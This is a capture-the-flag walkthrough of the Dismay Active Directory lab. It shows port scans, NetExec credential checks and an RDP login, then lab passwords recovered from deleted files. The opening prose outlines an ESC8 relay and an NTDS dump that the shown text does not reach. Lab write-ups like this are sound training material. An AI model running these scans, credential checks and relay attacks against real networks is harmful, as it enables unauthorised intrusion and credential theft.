In this walkthrough, we will be compromising Dismay, a medium-difficulty Active Directory lab from Hack Smarter Labs, starting from assumed-breach credentials for `xiao.ge` against three hosts: two domain controllers and a WSUS server, Nexus. `xiao.ge` is a local account on Nexus that can log in over RDP, and its recycle bin holds an invoice draft with staging credentials and a password-protected archive. The staging password opens the archive, and the penetration test report inside carries `guy.rookie`'s domain password in a code comment. From `guy.rookie`, a chain of ACL edges runs through `jena.yamazaki` to `mike.silver`. Certipy finds the CA on DC2 serving web enrollment over HTTP, an ESC8 misconfiguration. We coerce DC1 into authenticating to us and relay it to that endpoint for a certificate as `DC1$`, whose NT hash lets us dump NTDS from DC1. The domain Administrator's hash then opens WinRM shells on both domain controllers.


Created by: [D1n0Gm01d](https://www.hacksmarter.org/courses/6b416ada-6326-4e1c-8193-b3becad55ecd)

Let's get started.

## Objective

You have been assigned a penetration test of a client's internal network. There are three different servers in-scope. Your task is to identify all vulnerabilities and demonstrate impact to the client by elevating your access to Domain Admin. The client has provided you VPN access and Active Directory credentials (below) for the engagement.

Initial Access:

The client has provided you with Active Directory credentials and VPN access.

**Starting Credentials**

```
xiao.ge:AmBZATVjnH4qo8H4
```

## Scope

**Target (DC1):** `10.1.111.107`

**Target (DC2):** `10.1.87.238`

**Target (Nexus):** `10.1.184.115`

## RustScan (DC1)

We start with [RustScan](https://github.com/bee-san/RustScan) to find the open ports quickly. It hands them straight to Nmap, which identifies service versions with `-sV` and runs the default script set with `-sC` to pull banners, certificates, and other details.

```
rustscan -a 10.1.111.107 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-11-07 22:21:35Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: dismay.hsm, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.dismay.hsm, DNS:dismay.hsm, DNS:DISMAY
| Issuer: commonName=dismay-DC2-CA/domainComponent=dismay
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-07T22:05:18
| Not valid after:  2027-11-07T22:05:18
| MD5:     4e1c 83c4 299e 0f21 8c0b 06bd 670a c69d
| SHA-1:   15a2 7a7b 8ba9 cfff 74ed 7d4d 289e 118b 8ba1 bfd3
| SHA-256: 1103 615f a0d1 5cd5 ab3c f429 69b2 1fe0 5a41 25c9 9922 d243 cd10 f9da 7226 ec59
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: dismay.hsm, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.dismay.hsm, DNS:dismay.hsm, DNS:DISMAY
| Issuer: commonName=dismay-DC2-CA/domainComponent=dismay
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-07T22:05:18
| Not valid after:  2027-11-07T22:05:18
| MD5:     4e1c 83c4 299e 0f21 8c0b 06bd 670a c69d
| SHA-1:   15a2 7a7b 8ba9 cfff 74ed 7d4d 289e 118b 8ba1 bfd3
| SHA-256: 1103 615f a0d1 5cd5 ab3c f429 69b2 1fe0 5a41 25c9 9922 d243 cd10 f9da 7226 ec59
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: dismay.hsm, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.dismay.hsm, DNS:dismay.hsm, DNS:DISMAY
| Issuer: commonName=dismay-DC2-CA/domainComponent=dismay
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-07T22:05:18
| Not valid after:  2027-11-07T22:05:18
| MD5:     4e1c 83c4 299e 0f21 8c0b 06bd 670a c69d
| SHA-1:   15a2 7a7b 8ba9 cfff 74ed 7d4d 289e 118b 8ba1 bfd3
| SHA-256: 1103 615f a0d1 5cd5 ab3c f429 69b2 1fe0 5a41 25c9 9922 d243 cd10 f9da 7226 ec59
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: dismay.hsm, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC1.dismay.hsm, DNS:dismay.hsm, DNS:DISMAY
| Issuer: commonName=dismay-DC2-CA/domainComponent=dismay
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-07T22:05:18
| Not valid after:  2027-11-07T22:05:18
| MD5:     4e1c 83c4 299e 0f21 8c0b 06bd 670a c69d
| SHA-1:   15a2 7a7b 8ba9 cfff 74ed 7d4d 289e 118b 8ba1 bfd3
| SHA-256: 1103 615f a0d1 5cd5 ab3c f429 69b2 1fe0 5a41 25c9 9922 d243 cd10 f9da 7226 ec59
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DISMAY
|   NetBIOS_Domain_Name: DISMAY
|   NetBIOS_Computer_Name: DC1
|   DNS_Domain_Name: dismay.hsm
|   DNS_Computer_Name: DC1.dismay.hsm
|   DNS_Tree_Name: dismay.hsm
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-07T22:22:27+00:00
| ssl-cert: Subject: commonName=DC1.dismay.hsm
| Issuer: commonName=DC1.dismay.hsm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-06T22:14:20
| Not valid after:  2027-05-08T22:14:20
| MD5:     e07b 44b3 508e de23 a9d4 8e44 3c1a 2d1b
| SHA-1:   e84c 6061 7a94 2d4b 4064 704f a7a0 69b8 3639 e1e0
| SHA-256: b6b1 d438 216d 51d1 95f8 91cd 18a9 05ea 728b 99a1 b0c7 e5d0 c989 fa27 8836 7420
|_ssl-date: 2026-11-07T22:22:46+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
56268/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
56269/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
56281/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
56295/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
56300/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, and WinRM on 5985. The LDAP banner gives us the domain as `dismay.hsm`, and the certificate and RDP NTLM info confirm the hostname as `DC1.dismay.hsm`. We add both to `/etc/hosts` before continuing.

## RustScan (DC2)

We scan the second domain controller the same way.

```
rustscan -a 10.1.87.238 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 126 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  syn-ack ttl 126 Microsoft Windows Kerberos (server time: 2026-11-07 22:22:13Z)
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: dismay.hsm, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC2.dismay.hsm, DNS:dismay.hsm, DNS:DISMAY
| Issuer: commonName=dismay-DC2-CA/domainComponent=dismay
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-07T22:05:18
| Not valid after:  2027-11-07T22:05:18
| MD5:     a760 3ebf a4f1 c821 7628 fdf9 752f 082c
| SHA-1:   e21c dacc b794 2f73 71e6 c3e9 236a 9aed 68f0 57ef
| SHA-256: f922 3c68 1224 8da5 4ff4 adfa 71bc 8d0d 7b60 2620 d806 e6ab d2b1 f5aa 5e61 e1ab
443/tcp   open  https?        syn-ack ttl 126
445/tcp   open  microsoft-ds? syn-ack ttl 126
464/tcp   open  kpasswd5?     syn-ack ttl 126
593/tcp   open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: dismay.hsm, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC2.dismay.hsm, DNS:dismay.hsm, DNS:DISMAY
| Issuer: commonName=dismay-DC2-CA/domainComponent=dismay
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-07T22:05:18
| Not valid after:  2027-11-07T22:05:18
| MD5:     a760 3ebf a4f1 c821 7628 fdf9 752f 082c
| SHA-1:   e21c dacc b794 2f73 71e6 c3e9 236a 9aed 68f0 57ef
| SHA-256: f922 3c68 1224 8da5 4ff4 adfa 71bc 8d0d 7b60 2620 d806 e6ab d2b1 f5aa 5e61 e1ab
3268/tcp  open  ldap          syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: dismay.hsm, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC2.dismay.hsm, DNS:dismay.hsm, DNS:DISMAY
| Issuer: commonName=dismay-DC2-CA/domainComponent=dismay
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-07T22:05:18
| Not valid after:  2027-11-07T22:05:18
| MD5:     a760 3ebf a4f1 c821 7628 fdf9 752f 082c
| SHA-1:   e21c dacc b794 2f73 71e6 c3e9 236a 9aed 68f0 57ef
| SHA-256: f922 3c68 1224 8da5 4ff4 adfa 71bc 8d0d 7b60 2620 d806 e6ab d2b1 f5aa 5e61 e1ab
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      syn-ack ttl 126 Microsoft Windows Active Directory LDAP (Domain: dismay.hsm, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC2.dismay.hsm, DNS:dismay.hsm, DNS:DISMAY
| Issuer: commonName=dismay-DC2-CA/domainComponent=dismay
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-07T22:05:18
| Not valid after:  2027-11-07T22:05:18
| MD5:     a760 3ebf a4f1 c821 7628 fdf9 752f 082c
| SHA-1:   e21c dacc b794 2f73 71e6 c3e9 236a 9aed 68f0 57ef
| SHA-256: f922 3c68 1224 8da5 4ff4 adfa 71bc 8d0d 7b60 2620 d806 e6ab d2b1 f5aa 5e61 e1ab
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DISMAY
|   NetBIOS_Domain_Name: DISMAY
|   NetBIOS_Computer_Name: DC2
|   DNS_Domain_Name: dismay.hsm
|   DNS_Computer_Name: DC2.dismay.hsm
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-07T22:23:08+00:00
| ssl-cert: Subject: commonName=DC2.dismay.hsm
| Issuer: commonName=DC2.dismay.hsm
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-06T22:14:23
| Not valid after:  2027-05-08T22:14:23
| MD5:     cd8b 66a6 5cde 49cf 303f 4bbc 254c 09d6
| SHA-1:   f68a 2330 f3be 7da7 c9ba 432a 5fd7 a74b 0710 c980
| SHA-256: 4737 70c4 241c 2b3b 869d 3ffd 8090 c553 76ba f22f cda6 440b 6c72 5316 fa3b f5b7
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack ttl 126 .NET Message Framing
49669/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack ttl 126 Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49688/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
53431/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
53455/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
62840/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: Host: DC2; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Standard domain controller ports across the board. DNS on 53, Kerberos on 88, LDAP on 389, LDAPS on 636, the global catalog on 3268 and 3269, SMB on 445, RDP on 3389, and WinRM on 5985, with IIS on 80 and a service Nmap guesses is HTTPS on 443 also exposed, neither of which is part of a default domain controller install. The RDP NTLM info names the host `DC2.dismay.hsm`, and we add it to `/etc/hosts` as well.

## RustScan (Nexus)

The third host gets the same scan.

```
rustscan -a 10.1.184.115 -- -sC -sV
```

```
PORT      STATE SERVICE       REASON          VERSION
80/tcp    open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 126 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 126
3389/tcp  open  ms-wbt-server syn-ack ttl 126 Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-GQCP864
| Issuer: commonName=EC2AMAZ-GQCP864
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-11-06T22:14:15
| Not valid after:  2027-05-08T22:14:15
| MD5:     72ac f157 a0e9 fb07 944b ca55 b5fc c1a4
| SHA-1:   19fa b1ee 0c5d 472a d5e7 3936 3c21 f3da 3e68 a86b
| SHA-256: ba40 5dd8 6efd 73c6 6084 7331 10a0 6f2a f45e 4a01 dae5 4bd4 47b7 04e4 568f a41a
| rdp-ntlm-info: 
|   Target_Name: EC2AMAZ-GQCP864
|   NetBIOS_Domain_Name: EC2AMAZ-GQCP864
|   NetBIOS_Computer_Name: EC2AMAZ-GQCP864
|   DNS_Domain_Name: EC2AMAZ-GQCP864
|   DNS_Computer_Name: EC2AMAZ-GQCP864
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-07T22:23:38+00:00
|_ssl-date: 2026-11-07T22:23:57+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 126 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
8530/tcp  open  http          syn-ack ttl 126 Microsoft IIS httpd 10.0
| http-methods: 
|_  Supported Methods: HEAD OPTIONS
|_http-title: Site doesn't have a title.
8531/tcp  open  unknown       syn-ack ttl 126
49667/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 126 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Nexus runs IIS on 80 and 8530 and an unidentified service on 8531, alongside SMB on 445, RDP on 3389, and WinRM on 5985. The RDP NTLM info reports the hostname, `EC2AMAZ-GQCP864`, in every domain field, so Nexus is not joined to `dismay.hsm`.

We save all three IPs to a `hosts.txt` file.

## SMB Enumeration

We check what `xiao.ge` can reach over SMB, running NetExec against every host in `hosts.txt`.

```
nxc smb hosts.txt -u 'xiao.ge' -p 'AmBZATVjnH4qo8H4' --shares
```

```
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [*] Windows Server 2022 Build 20348 x64 (name:EC2AMAZ-GQCP864) (domain:EC2AMAZ-GQCP864) (signing:False) (SMBv1:None)
SMB         10.1.87.238     445    DC2              [*] Windows Server 2022 Build 20348 x64 (name:DC2) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.111.107    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:dismay.hsm) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [+] EC2AMAZ-GQCP864\xiao.ge:AmBZATVjnH4qo8H4 
SMB         10.1.87.238     445    DC2              [-] dismay.hsm\xiao.ge:AmBZATVjnH4qo8H4 STATUS_LOGON_FAILURE 
SMB         10.1.111.107    445    DC1              [-] dismay.hsm\xiao.ge:AmBZATVjnH4qo8H4 STATUS_LOGON_FAILURE 
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  [*] Enumerated shares
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  Share           Permissions     Remark
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  -----           -----------     ------
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  ADMIN$                          Remote Admin
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  C$                              Default share
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  IPC$            READ            Remote IPC
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  UpdateServicesPackages READ            A network share to be used by client systems for collecting all software packages (usually applications) published on this WSUS system.
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  WsusContent     READ            A network share to be used by Local Publishing to place published content on this WSUS system.
SMB         10.1.184.115    445    EC2AMAZ-GQCP864  WSUSTemp                        A network share used by Local Publishing from a Remote WSUS Console Instance.
```



*NetExec against all three hosts, with xiao.ge valid only on Nexus and READ on its two WSUS shares*

`xiao.ge` authenticates only on Nexus, as `EC2AMAZ-GQCP864\xiao.ge`, a local account on that host. Both domain controllers reject it as `dismay.hsm\xiao.ge` with `STATUS_LOGON_FAILURE`. The share remarks mark Nexus as a WSUS server, and `xiao.ge` reads `UpdateServicesPackages` and `WsusContent`, but neither holds anything useful.

## RDP Access

We keep enumerating what `xiao.ge` can reach and test RDP next.

```
nxc rdp 10.1.184.115 -u 'xiao.ge' -p 'AmBZATVjnH4qo8H4'
```

```
RDP         10.1.184.115    3389   EC2AMAZ-GQCP864  [*] Windows 10 or Windows Server 2016 Build 20348 (name:EC2AMAZ-GQCP864) (domain:EC2AMAZ-GQCP864) (nla:True)
RDP         10.1.184.115    3389   EC2AMAZ-GQCP864  [+] EC2AMAZ-GQCP864\xiao.ge:AmBZATVjnH4qo8H4 (Pwn3d!)
```



*NetExec confirming xiao.ge can log in to Nexus over RDP*

Over RDP, NetExec's `(Pwn3d!)` means the account can log in and run commands. We connect with xfreerdp.

```
xfreerdp3 /v:10.1.184.115 /u:xiao.ge /p:AmBZATVjnH4qo8H4 /cert:ignore /dynamic-resolution +clipboard
```

In the session, the recycle bin holds three PDFs and a 7-Zip archive, `Confidential.7z`, so we restore all of them.



*The xiao.ge recycle bin on Nexus holding the deleted PDFs and Confidential.7z*

`Invoice_Draft_2026_Q2.pdf` carries a note to Xiao with temporary staging credentials, shown here with its line breaks rejoined.

```
"Xiao, I've set up the temporary staging credentials for the migration. Please use these to verify the ReportBundle.zip extraction on the local machine before we push to production."
Temporary User: staging_admin
Temporary Pass: Spring_2026_Temp!
Database Key: 0xDEADBEEF992211
```



*The note in Invoice_Draft_2026_Q2.pdf handing Xiao the staging_admin credentials*

## Access as guy.rookie

In the RDP session, we right-click `Confidential.7z` > 7-Zip > Extract Here. 7-Zip prompts for a password, and `Spring_2026_Temp!` from the invoice opens it.



*The 7-Zip password prompt for Confidential.7z on Nexus, with the staging password entered*

The extraction places `Confidential.pdf` on the desktop, and we open it.



*Confidential.pdf open on Nexus after extraction from Confidential.7z*

`Confidential.pdf` is a penetration test report. Its finding on sensitive credentials in documentation quotes a PowerShell snippet in Appendix A. The snippet carries one password in two places, shown here as just the relevant lines with their line breaks rejoined.

```
$scannerUser = "svc_scanner"
$scannerPassword = ConvertTo-SecureString "O0Aco9FQJQ" -AsPlainText -Force
# PS> Set-ADAccountPassword -Identity "guy.rookie" -NewPassword (ConvertTo-SecureString "O0Aco9FQJQ" -AsPlainText -Force) -Reset
```

